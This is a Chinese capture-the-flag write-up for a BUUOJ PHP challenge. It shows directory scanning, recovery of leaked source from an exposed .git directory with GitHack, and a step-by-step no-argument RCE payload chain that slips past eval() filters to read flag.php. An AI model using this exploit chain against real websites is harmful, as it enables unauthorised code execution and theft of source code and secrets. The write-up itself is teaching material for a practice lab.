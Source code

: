 ![[Pasted image 20221114101936.png]]

---
首页长这样

![[Pasted image 20221114101945.png]]

然后好像就没有然后了QAQ

---
尝试使用`dirsearch`进行目录扫描
```shell
./dirsearch.py -u http://xxx.node4.buuoj.cn/ -t 1
```

```python
# Dirsearch started Mon Nov 14 10:28:50 2022 as: /home/chen/Desktop/proj/repos/dirsearch/dirsearch.py -u http://xxx.node4.buuoj.cn/ -t 1

301   185B   http://xxx.node4.buuoj.cn/.git    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/
403   169B   http://xxx.node4.buuoj.cn/.git/
403   169B   http://xxx.node4.buuoj.cn/.git/branches/
200   267B   http://xxx.node4.buuoj.cn/.git/COMMIT_EDITMSG
200    92B   http://xxx.node4.buuoj.cn/.git/config
200    73B   http://xxx.node4.buuoj.cn/.git/description
200    23B   http://xxx.node4.buuoj.cn/.git/HEAD
403   169B   http://xxx.node4.buuoj.cn/.git/hooks/
200   137B   http://xxx.node4.buuoj.cn/.git/index
403   169B   http://xxx.node4.buuoj.cn/.git/info/
200   240B   http://xxx.node4.buuoj.cn/.git/info/exclude
403   169B   http://xxx.node4.buuoj.cn/.git/logs/
200   150B   http://xxx.node4.buuoj.cn/.git/logs/HEAD
301   185B   http://xxx.node4.buuoj.cn/.git/logs/refs    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/logs/refs/
301   185B   http://xxx.node4.buuoj.cn/.git/logs/refs/heads    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/logs/refs/heads/
200   150B   http://xxx.node4.buuoj.cn/.git/logs/refs/heads/master
403   169B   http://xxx.node4.buuoj.cn/.git/objects/
403   169B   http://xxx.node4.buuoj.cn/.git/refs/
301   185B   http://xxx.node4.buuoj.cn/.git/refs/heads    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/refs/heads/
200    41B   http://xxx.node4.buuoj.cn/.git/refs/heads/master
301   185B   http://xxx.node4.buuoj.cn/.git/refs/tags    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/refs/tags/
```
发现可能存在`git`源码泄露，使用`GitHack`获取源码
```shell
chen@cracktc-no-omen ~/D/p/r/GitHack (master)> ./GitHack.py http://xxx.node4.buuoj.cn/.git/
[+] Download and parse index file ...
[+] index.php
[OK] index.php
```
---
index.php
```php
<?php  
include "flag.php";  
echo "flag在哪里呢？<br>";  
if(isset($_GET['exp'])){  
   if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {  
       if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {  
           if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {  
               // echo $_GET['exp'];  
               @eval($_GET['exp']);  
           }  
           else{  
               die("还差一点哦！");  
           }  
       }  
       else{  
           die("再好好想想！");  
       }  
   }  
   else{  
       die("还想读flag，臭弟弟！");  
   }  
}  
// highlight_file(__FILE__);  
?>
```
只接受函数套函数的形式，禁止套娃.jpg

---
# 思路
主要就是想办法只通过函数的嵌套搞出`'.'`，从而通过`scandir('.');`来获得目录下的文件，再通过数组操作取`flag.php`传给`highlight_file`函数，达到获取`flag`的目的

---
# 获取`'.'`
搜索得知，`localeconv()`函数能够返回区域格式相关的信息
```php
/?exp=var_dump(localeconv());
```

```php
array(18) {
  ["decimal_point"]=>
  string(1) "."
  ["thousands_sep"]=>
  string(0) ""
  ["int_curr_symbol"]=>
  string(0) ""
  ["currency_symbol"]=>
  string(0) ""
  ["mon_decimal_point"]=>
  string(0) ""
  ["mon_thousands_sep"]=>
  string(0) ""
  ["positive_sign"]=>
  string(0) ""
  ["negative_sign"]=>
  string(0) ""
  ["int_frac_digits"]=>
  int(127)
  ["frac_digits"]=>
  int(127)
  ["p_cs_precedes"]=>
  int(127)
  ["p_sep_by_space"]=>
  int(127)
  ["n_cs_precedes"]=>
  int(127)
  ["n_sep_by_space"]=>
  int(127)
  ["p_sign_posn"]=>
  int(127)
  ["n_sign_posn"]=>
  int(127)
  ["grouping"]=>
  array(0) {
  }
  ["mon_grouping"]=>
  array(0) {
  }
}
```
通过`current`函数可以取该数组的第一个元素，也就是小数点`.`
```php
/?exp=var_dump(current(localeconv()));
```

```php
string(1) "."
```
---
# 获取目录文件
```php
/?exp=var_dump(scandir(current(localeconv())));
```

```php
array(5) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(4) ".git"
  [3]=>
  string(8) "flag.php"
  [4]=>
  string(9) "index.php"
}
```

# 获取`'flag.php'`
`'flag.php'`在数组的倒数第二个位置

可以通过`array_reverse`函数将数组倒序返回，再利用`next`函数取第二个元素
```php
/?exp=var_dump(next(array_reverse(scandir(current(localeconv())))));
```

```php
string(8) "flag.php"
```

# 读取`flag.php`
```php
/?exp=var_dump(highlight_file(next(array_reverse(scandir(current(localeconv()))))));
```

```php
<?php
$flag = "flag{b0706baf-2c5c-4499-8a5e-8961814c3bf6}";
?>
```

---
这篇大佬写的wp还介绍了更多无参数RCE的骚操作

https://johnfrod.top/ctf/gxyctf-2019禁止套娃/

#Web #PHP #git泄露 #目录爆破 #数组 #function #RCE #无参数